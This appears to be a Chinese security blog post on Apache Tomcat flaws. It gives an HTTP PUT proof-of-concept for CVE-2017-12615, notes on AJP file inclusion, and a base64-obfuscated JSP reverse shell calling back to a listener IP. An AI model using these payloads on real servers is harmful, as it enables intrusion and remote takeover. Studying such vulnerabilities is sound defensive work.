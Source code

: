 +++
ShowToc = true
TocOpen = true
title = 'Tomcat'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'Java安全'
+++

# 一、Tomcat

Tomcat是Apache 软件基金会（Apache Software Foundation）的Jakarta 项目中的一个核心项目，由Apache、Sun 和其他一些公司及个人共同开发而成。由于有了Sun 的参与和支持，最新的Servlet 和JSP 规范总是能在Tomcat 中得到体现，Tomcat 5支持最新的Servlet 2.4 和JSP 2.0 规范。因为Tomcat 技术先进、性能稳定，而且免费，因而深受Java 爱好者的喜爱并得到了部分软件开发商的认可，成为目前比较流行的Web 应用服务器。

# 二、漏洞介绍与利用

## 1、PUT文件上传 CVE-2017-12615

主要影响版本：




Tomcat 7.0.0-7.0.81

POC：此漏洞较为简单，可梭哈




Tomcat 7.0.0-7.0.81

```
POC：
PUT /1.txt/ HTTP/1.1
Host: 192.168.2.66:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://192.168.2.66:8080/tomcat.css
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 3

cxk
```

## 2、AJP文件包含

由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。


此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

影响版本：

Apache Tomcat 6





Apache Tomcat 7< 7.0.100





Apache Tomcat 8< 8.5.51





Apache Tomcat 9< 9.0.31

此漏洞无法梭哈检测，需要指定8009端口和访问文件，工具可利用

利用方式：

1、上传JSP反弹shell文件，内容如下：

```
<%Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuNDAvODg4OCAwPiYx}|{base64,-d}|{bash,-i}");%>
```

![](/zj_img/WEBRESOURCE2bd2c33e9c184460d768a77a5c8dea8f截图.png)

2、文件包含反弹shell:

![](/zj_img/WEBRESOURCE425208ed092d91b5cdbfaaa162251e77截图.png)

3、弱密码

先从低版本tomcat管理控制台进行弱口令爆破tomcat-6.0.9，在7.x 后的版本加入了防暴力破解，所以针对tomcat 7.x 以后的版本不用考虑爆破。